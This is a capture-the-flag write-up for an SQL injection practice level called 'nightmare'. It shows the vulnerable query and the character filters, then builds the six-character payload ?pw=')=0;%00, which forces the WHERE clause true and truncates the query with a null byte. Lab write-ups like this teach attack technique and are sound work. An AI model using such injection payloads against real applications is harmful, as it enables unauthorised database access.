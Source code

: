 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 18
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b37663bf-7e53-4d53-b15b-b9e65b46df36)

We are provided with the SQL query:

```sql
SELECT id FROM prob_nightmare WHERE pw=('{$_GET[pw]}') AND id!='admin'
```

### Filter
The code filters out the following:

- `pw` parameter value greater than 6 characters
- `#`
- `-`

In order to make the given SQL query result in `TRUE`, we have to set the password to an empty string.

In order to do so within 6 characters, we can provide the following URI parameter:

```
?pw=')=0
```

The resultant query becomes:

```sql
SELECT id FROM prob_nightmare WHERE pw=('')=0') AND id!='admin'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/c75599ca-621e-48f4-8fd0-af5f0c3f162a)

Now, in order to remove the rest of query we have use a NULL byte (`%00`). This terminates the query.
We also have to add a semi-colon (`;`) before terminating the query.

If we provide the following URI parameter:

```
?pw=')=0;%00
```

The resultant query becomes:

```sql
SELECT id FROM prob_nightmare WHERE pw=('')=0;

## Terminated part:
') AND id!='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/0cdb82c7-6781-4cb7-8ebd-fd513f70f309)
